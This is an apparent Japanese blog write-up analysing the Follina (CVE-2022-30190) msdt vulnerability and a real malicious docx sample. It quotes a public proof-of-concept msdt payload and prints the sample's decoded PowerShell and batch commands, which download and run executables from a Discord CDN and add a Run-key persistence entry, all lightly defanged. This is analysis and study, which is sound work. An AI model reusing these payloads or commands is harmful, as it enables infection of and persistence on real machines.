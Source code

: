     # 今更だけどFollinaをみてみる

6月に公開されて大騒ぎになったFollinaを今更見てみたいと思います。  
いや、もうパッチも当たってるしいらないよ、て話もあるかもしれませんが、まぁ時間があればお付き合いください。  

話を始める前に、まずはFollinaについてかいつまんで説明します。  

### Follinaって？

`CVE-2022-30190`で管理されている脆弱性です。Windowsでは診断ツールとして`msdt`というものがありますが、これの脆弱性です。  

で、重要なことはこの診断ツールを呼び出す様な処理はオフィスからも可能、ということです。  
これが怖いのは、マクロと違い、保護ビューとかそんなのは関係なく動いてしまうことにあります。試してはいないのですが、RTF形式ではプレビューで見るだけで感染するようですね。まぁ診断ツールですからそれだけで動くのは想像できます。  

### どうやって悪用するの？

山ほどPOCコードがありますので、それを見るのが一番理解ができると思います。  
例えば、以下です。  
https://github.com/chvancooten/follina.py

該当の個所を見ると以下ですね。これはpowershellのbase64コマンドを埋め込むときのイメージです。  
Note: encoded_commandに悪性のbase64コマンドを埋め込みます。  

```python
payload = fr'''"ms[-]msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke[-]Expression($(Invoke[-]Expression('[System[.]Text[.]Encoding]'+[char]58+[char]58+'Unicode[.]GetString([System[.]Convert]'+[char]58+[char]58+'From[Base64]String('+[char]34+'{encoded_command}'+[char]34+'))'))))i[/../../../../../../../../../../../../../../]Windows/System32/mpsigstub[.]exe\""'''
```

こういったコマンドを、`word/_rels/document.xml.rels`などのファイルに埋め込みます。  
ちなみにmsdt.exeに直接渡してもできるかな、と思って試しましたが、Defenderでブロックされました。Defenderを止めても動作せず。まぁ修正されてることが確認できたと考えましょう。  

![失敗画像](images/msdt01.png)

### 本番。検体を見てみる。  

今回、検体を見てみるうえで以下をチェックしました。
`432bae48edf446539cae5e20623c39507ad65e21cb757fb514aba635d3ae67d6`  
https://www.virustotal.com/gui/file/432bae48edf446539cae5e20623c39507ad65e21cb757fb514aba635d3ae67d6/details

このファイルは、malwarebazaarに上がっていたので、検体をダウンロードして内容を見てみます。  
ちなみにこのファイルはdocxですが、オフィスファイルは実はzip圧縮ファイルなので、zipとして解凍ができます。  
ということで、ファイルをダウンロードして解凍してみました。  

```bash
$ ls -la
total 24
drwxr-xr-x 5 kali kali 4096 Jul 11 12:54  .
drwxr-xr-x 3 kali kali 4096 Jul 11 12:54  ..
-rw-r--r-- 1 kali kali 1458 Jan  1  1980 '[Content_Types].xml'
drwxr-xr-x 2 kali kali 4096 Jun 14 21:43  _rels
drwxr-xr-x 2 kali kali 4096 Jun 14 21:43  docProps
drwxr-xr-x 6 kali kali 4096 Jun 14 21:43  word
```

大体こんな感じのファイル形式をしています。さて、まずは文字列情報を全て取って１つのテキストに保存してみましょう。   

```bash
grep -E ".*" -r ./* >> allstrings.txt
```

grepですべての文字列にマッチさせ、recurseで全ファイル対象としてます。  
この中のファイルを追加で見てみると、以下がありました。このdiscordのURLが悪性でしょう。こんなのはいるはずないですからね。  

対象ファイル: ./word/_rels/document.xml.rels  
```
～省略～
<Relationship Id="rId5" Type="hxxp://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="hxxps://cdn.discordapp.com/attachments/986484515985825795/986821210044264468/index.htm!" TargetMode="External"/>
～省略～</Relationships>
```

こうなったらこのdiscordにアクセスしたいのですが、非常に残念なことにすでに403でアクセス不可でした。そのため、今度はvirustotalの動的解析情報を見ます。(一応言っておきますが、本来はこっちを先に見ます。ここで有益な情報見れるのにわざわざ検体見る必要ないですからね)  

そうすると、とても興味深いプロセス起動情報がございました。  

![virustotal情報](images/virustotal01.png)

以下のようなpowershell起動がありますが、これはさすがにありえないですね。base64コマンドを実行してます。今度はこの中身を見てみましょう。  

```powershell
(Invoke-Expression($(Invoke-Expression('[System[.]Text[.]Encoding]'+[char]58+[char]58+'UTF8[.]GetString([System[.]Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SW52b2tlLVdl～省略～GFza3NcV29yZC5leGUgOw=='+[char]34+'
```

この省略したbase64コマンドの中身を見てみると、今度は以下のコマンドになってます。またdiscordですね。。

```powershell
Invoke-WebRequest hxxps://cdn[.]discordapp[[.]]com/attachments/986484515985825795/986495733295374366/cd[.]bat -OutFile C:\Windows\Tasks\cd[.]bat ; Start-Process  -WindowStyle Hidden 'C:\Windows\Tasks\cd[.]bat' ; Invoke-WebRequest hxxps://cdn[.]discordapp[[.]]com/attachments/986484515985825795/986484659363930122/Word[.]exe -OutFile C:\Windows\Tasks\Word[.]exe; C:\Windows\Tasks\Word[.]exe ;
```

さて、次です。この`word.exe`と`cd.bat`をそれぞれダウンロード、と行きたいところですが残念ながらword.exeは403でアクセスできず。  

cd.batは以下となってました。  
```bat
@echo off
%WinDir%\syswow64\windowspowershell\v1[.]0\powershell[.]exe -WindowStyle Hidden -Command "Invoke-WebRequest hxxps://cdn[.]discordapp[.]com/attachments/986484515985825795/986489283969953802/1c9c88f811662007[.]docx -OutFile C:\\users\$env:USERNAME\Downloads\18562[.]docx ;taskkill /f /im msdt[.]exe ; taskkill /f /im WINWORD[.]EXE; Start-Process C:\\users\$env:USERNAME\Downloads\18562[.]docx ;reg add 'HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run' /V 'Word' /t REG_SZ /F /D 'C:\\Windows\\Tasks\\Word[.]exe'; rm C:\Windows\Tasks\cd[.]bat;"
```

面白いことに追加でまたdocxファイルをダウンロードしてます。これはダミーのファイルでしょうね。ダウンロード後にファイル開いてますし。ハッシュをとってみたところ、以下でした。検知は0。  

https://www.virustotal.com/gui/file/e3af143ba12209fafdc3089a740d23faf59f6f1508c00d8f56f8cc9d0c8ebf89

最後に以下のレジストリに追加することで永続性を付与してます。  
パス: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
キー: Word
値: C:\\Windows\\Tasks\\Word.exe

後は後始末として`msdt.exe`などのプロセス停止や`cd.bat`の削除などです。これでマルウェア感染の初期は終了となります。  

結局この`word.exe`がペイロード、ということですね。残念ながらこのファイルは既にダウンロードできないため、詳細不明。ここで解析は終了とさせていただきます。

### 関連情報

最後に、discordを使っているのが面白いと思いましたのでちょっと見てみたところ、既に情報が出てました。

https://thehackernews.com/2022/07/hackers-exploiting-follina-bug-to.html

どうやら、このword.exeは`Rozena Backdoor`だったようですね。
中々面白いものとなってました。こういう重大な脆弱性でも、パッチを適用しない（そもそもセキュリティアップデートやニュースをみない）人が多いのがこの世の中ですし、今後もちょくちょく使われるんだろうな、と思わされますね。  

今回は、これで終了となります。ありがとうございました。

